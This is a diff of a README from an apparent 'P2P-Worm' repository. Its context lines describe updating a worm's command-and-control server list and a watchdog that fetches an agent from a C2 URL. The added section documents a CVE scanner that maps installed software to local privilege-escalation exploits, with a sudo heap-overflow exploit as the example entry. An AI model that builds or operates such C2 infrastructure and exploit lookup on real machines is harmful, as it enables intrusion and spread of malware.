

Before and after one commit to Yuragy/P2P-Worm, a Markdown page: readme.md, the part around the change. Shown: that part at 80% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/readme.md
+++ b/readme.md
@@ -252,10 +252,79 @@ watchdog.exe <agent.exe> <https://c2.server/agent.exe>
 
 ### Updating the C2 List
 
-1. Edit `dll/c2_config.c`, adjust C2Count and the C2Addresses array.
+1. Edit dll/c2_config.c, adjust C2Count and the C2Addresses array.
 2. Rebuild just the DLL:
 
    ```
    make c2_config.dll
    ```
 3. The running service will pick up the new addresses on its next DLL reload cycle.
+
+## Scanner
+
+Console tool that, reads a local SQLite CVE DB. Checks kernel and specified package versions.Prints matching CVEs and local exploits from a CSV
+
+## Dependencies
+
+* gcc, make
+* SQLite3 dev libs libsqlite3-dev/sqlite-devel
+* Python 3.7+ to build the DB
+
+## Build
+
+```
+git clone <repo>
+cd cve_scanner_c
+make
+```
+
+Useful targets:
+
+```
+make db
+make exploits
+make clean
+make clean-db
+```
+
+## Options:
+
+* --db PATH        path to the SQLite CVE DB
+* --exploits PATH  path to exploits CSV id,cve,description,path
+* --kernel         scan kernel version
+* --packages LIST  comma separated package names
+* -h/--help        help
+
+## Updating the CVE DB
+
+```
+./tools/update_nvd_sqlite.py data/nvd.sqlite3 --json-dir data/nvd_json --download
+```
+
+Subsequent runs can omit --download if JSON files are already present.
+
+## Data formats
+
+SQLite table cves:
+
+```
+id TEXT PRIMARY KEY
+summary TEXT
+product TEXT            -- linux_kernel or package name
+version_start_inc TEXT  -- inclusive bound, NULL if none
+version_end_exc  TEXT   -- exclusive bound, NULL if none
+```
+
+exploits.csv:
+
+```
+id,cve,description,path
+50035,CVE-2021-3156,Sudo heap overflow exploit,exploits/linux/local/50035.py
+```
+
+## Notes
+
+* Version range checks are done in C; keep ranges accurate.
+* CSV parser is simple: no quotes or commas inside fields.
+* Missing packages just produce a notice.
+* On OOM, entries are skipped safely (no crash).
````
